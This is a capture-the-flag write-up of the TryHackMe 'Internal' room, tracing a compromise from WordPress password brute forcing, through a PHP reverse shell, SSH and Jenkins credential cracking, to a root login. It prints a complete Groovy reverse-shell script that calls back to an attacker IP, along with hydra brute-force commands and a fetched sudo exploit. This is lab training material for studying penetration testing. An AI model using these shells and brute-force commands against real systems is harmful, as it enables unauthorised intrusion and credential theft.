

# Internal

These notes are from a challenge I did @[tryhackme](https://tryhackme.com) called [Internal Penetration Testing Challenge](https://tryhackme.com/room/internal).

## First Checks

Let's add victim.thm to the hosts file as requested and run nmap, niktio and gobuster to scan the target.

``` sh
sudo echo 10.10.156.30 victim.thm >> /etc/hosts
echo victim.thm
nmap -sC -sV victim.thm
nikto -h victim.thm
```

nmap output

``` sh
nmap -sC -sV $IP
Nmap scan report for 10.10.156.30
Host is up (0.020s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.50 seconds
```

nikto output

``` sh
nikto -h $IP
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.156.30
+ Target Hostname:    10.10.156.30
+ Target Port:        80
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 5abef58e962a5, mtime: gzip
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, HEAD, GET, POST
+ Uncommon header 'x-ob_mode' found, with contents: 1
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ Cookie wordpress_test_cookie created without the httponly flag
+ /blog/wp-login.php: Wordpress login found
+ 8042 requests: 0 error(s) and 11 item(s) reported on remote host
---------------------------------------------------------------------------
+ 1 host(s) tested
```

output "gobuster output"

``` txt
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.156.30:80
===============================================================
/blog                 (Status: 301) [Size: 311] [--> http://10.10.156.30/blog/]
/wordpress            (Status: 301) [Size: 316] [--> http://10.10.156.30/wordpress/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.156.30/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.10.156.30/phpmyadmin/]
/server-status        (Status: 403) [Size: 277]
```

Wordpress output

``` txt
wpscan --url http://10.10.156.30/wordpress -P rockyou.txt -U admin
_______________________________________________________________
        __          _______   _____
        \ \        / /  __ \ / ____|
        \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
        \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                        Version 3.8.17
    Sponsored by Automattic - https://automattic.com/
    @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

Interesting Finding(s):

[+] Headers
| Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
| Found By: Headers (Passive Detection)
| Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.156.30/wordpress/xmlrpc.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
| References:
|  - http://codex.wordpress.org/XML-RPC_Pingback_API
|  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
|  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
|  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
|  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.156.30/wordpress/readme.html
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.156.30/wordpress/wp-cron.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 60%
| References:
|  - https://www.iplocation.net/defend-wordpress-from-ddos
|  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
| Found By: Emoji Settings (Passive Detection)
|  - http://10.10.156.30/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'
| Confirmed By: Meta Generator (Passive Detection)
|  - http://10.10.156.30/wordpress/, Match: 'WordPress 5.4.2'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
Checking Config Backups - Time: 00:00:01 <============================================> (137 / 137) 100.00% Time: 00:00:01

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys
Trying admin / lizzy Time: 00:01:19 <                                             > (3885 / 14348276)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
| Username: admin, Password: my2boys

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
```

So now we can login to wordpress as admin and look around.

The wordpress page reveals a private note on credentals of william being william:arnold147 sofar this doesnt seem usable

## Wordpress php reverse shell

I used this [php reverse shell](https://github.com/ivan-sincek/php-reverse-shell), modified IP and port and uploaded it to the wordpress 404 page. Now time to start netcat on the chosen port e.g.```nc -lvnp 6666``` and call a page that doesn't exist e.g.```/blog/index.php/2020/08/03/50/``` with e.g. curl.

We now get a reverse shell but no TTY so we can try this: ```python -c 'import pty; pty.spawn("/bin/sh")'``` or this```/bin/sh -i```.

Let's have a look around:

/etc/passwd output

``` sh
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```

The /home path shows one user "aubreanna" so let's use this to crack ssh using hydra:

``` sh
hydra -l aubreanna -P rockyou.txt 10.10.156.30 ssh
```

In parallel we can look for files containing "aubreanna":

``` sh
find ./ -type f -iname "*.txt" -exec grep -l "aubreanna" {} \; 2>/dev/null
./opt/wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

## Aubreanna

So let's login via aubreanna: ```ssh aubreanna@victim.thm``` and we find the first flag (user.txt) in the home dir.

Unfortunately```sudo -l``` is not allowed

``` sh
aubreanna@internal:~$ sudo -l
[sudo] password for aubreanna:
Sorry, user aubreanna may not run sudo on internal.
aubreanna@internal:~$ id
uid=1000(aubreanna) gid=1000(aubreanna) groups=1000(aubreanna),4(adm),24(cdrom),30(dip),46(plugdev)
```

Let's try running linpeas on the system to find something interesting:

From the Kali system

``` sh
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
scp linpeas.sh aubreanna@victim.thm:~/linpeas.sh
```

On the target machine as aubreanna:

``` sh
chmod +x linpeas.sh
./linpeas.sh
```

Interessting finds are the mysqladmin credentials:

```log
╔══════════╣ Analizing Wordpress Files (limit 70)
-rw-r--r-- 1 root root 3109 Aug  3  2020 /var/www/html/wordpress/wp-config.php
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'wordpress123' );
define( 'DB_HOST', 'localhost' );
```

We also see we have Sudo running in version```1.8.21``` and a check with searchsploit```searchsploit sudo``` reveals a vulnerability to```1.8.20``` "Sudo 1.8.20 - 'get_process_ttyname()' Local Privilege Escalation", but no luck running the [exploit](https://www.exploit-db.com/raw/42183).

@Kali

``` sh
wget -O exploit.c https://www.exploit-db.com/raw/42183
gcc -o exploit exploit.c
scp exploit aubreanna@10.10.156.30:~/exploit
```

@aubreanna@internal

``` sh
chmod +x exploit
./exploit
died in main: 57
```

I tried changing the c code but felt like a script kiddy as errors just moved on... so I gave up on this.

## Jenkins

In the home folder of aubreanna there is txt mentioning a local jenkins server.

From kali lets tunnel local port 31340 with ssh to "127.0.0.1:8080" on victim.thm (which we modified at the beginning).

``` sh
ssh -g -L31340:127.0.0.1:8080 -l aubreanna victim.thm
```

We can the open jenkins from your kali machine e.g. <http://localhost:31340> and analyse the login prompt with burpsuite:



Using the information from the intercepted post command of a failed login attempt we can build the hdyra brute-force attack:

``` sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 31340 http-post-form "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=&Submit=Sign+in:F=Invalid"
```

## Jenkins groovy reverse shell

Luckily the password is simple and cracked rather fast using the rockyou.txt. Now that we are logged in as admin in the Jenkins portal let's run [this groovy reverse shell](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy) in the jenkins script conosole and just changed "cmd" to "/bin/bash" as well as IP and port and started a new netcat session on port 7777

```groovy
String host="10.9.193.173";
int port=7777;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

We now have a reverse shell as user jenkins.

``` sh
find / -type f -iname "*.txt" 2>/dev/null
/opt/note.txt
/var/jenkins_home/userContent/readme.txt
/var/jenkins_home/war/images/atom-license.txt
/var/jenkins_home/war/scripts/combobox-readme.txt
/var/jenkins_home/war/WEB-INF/update-center-rootCAs/jenkins-update-center-root-ca.txt
/var/jenkins_home/war/WEB-INF/update-center-rootCAs/jenkins-update-center-root-ca-2.txt
/var/jenkins_home/war/WEB-INF/classes/dependencies.txt
/var/jenkins_home/war/dc-license.txt
/var/jenkins_home/war/robots.txt
/var/jenkins_home/war/css/font-awesome/fonts/LICENSE.txt
/var/jenkins_home/war/css/font-awesome/css/LICENSE.txt
/var/jenkins_home/war/css/google-fonts/roboto/LICENSE.txt
/usr/local/openjdk-8/demo/nio/zipfs/README.txt
/usr/local/openjdk-8/demo/nbproject/README.txt
...
```

The list is a little longer but the only interesting text file seems to be the note.

``` txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you
need access to the root user account.

root:tr0ub13guM!@#123
```

Let ssh as root and see if we find the flag :)

``` sh
ssh root@victim.thm
root@internal:~# cat root.txt
```
